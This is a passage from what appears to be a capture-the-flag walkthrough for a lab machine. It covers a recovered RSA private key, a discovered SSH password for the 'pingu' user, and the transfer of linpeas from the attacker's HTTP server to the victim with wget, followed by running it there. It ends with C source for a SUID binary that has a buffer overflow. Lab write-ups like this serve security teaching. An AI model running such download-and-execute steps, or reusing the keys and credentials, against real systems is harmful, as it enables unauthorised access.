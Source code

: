 ```
Oh9nFJyv9dz9uHAHMWf/AQKBgFh/DKsCeW8PLh4Bx8FU2Yavsfld7XXECbc5owVE
Hq4JyLsldqJKReahvut8KBrq2FpwcHbvvQ3i5K75wxC0sZnr069VfyL4VbxMVA+Q
4zPOnxPHtX1YW+Yxc9ileDcBiqCozkjMGUjc7s7+OsLw56YUpr0mNgOElHzDKJA8
qSexAoGAD4je4calnfcBFzKYkLqW3nfGIuC/4oCscYyhsmSySz5MeLpgx2OV9jpy
t2T6oJZYnYYwiZVTZWoEwKxUnwX/ZN73RRq/mBX7pbwOBBoINejrMPiA1FRo/AY3
pOq0JjdnM+KJtB4ae8UazL0cSJ52GYbsNABrcGEZg6m5pDJD3MM=
-----END RSA PRIVATE KEY-----
```

We can use this to log into his account.
That did not seem to work and I spent a lot of time trying to find this ssh password.
I tried using ssh2john with the pub file, but there was no password present in that private key, and I could not log into the pingu account with it either.
So finally i tried to use find on the www-data user instead of the pingu user, and on the bottom i found a file called `pass` stored in `/var/hidden`
We cat it out and find the ssh password for the pingu user.

`pingu:pinguapingu`

used the `find` command:
```sh
find / -user $USERNAME
```

### PART 5 - LinEnum

Transfered Linpeas.sh from our machine to the target using python:

On our machine:
```sh
python3 -m http.server
```

On the victim:
```sh
wget "http://$IP/linpeas.sh"
chmod +x linpeas
./linpeas.sh | tee linpeas.txt
```

Under the SUID category we see a very interesting file called `root`
It is an binary ELF executable.

`/opt/secret/root`


### PART 6 - PWNdbg

Here we are going to analyse the binary we found in the `/opt/secret/` directory.
Pingu did recover the source code of the file from his dad's flashdrive:
```c
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
```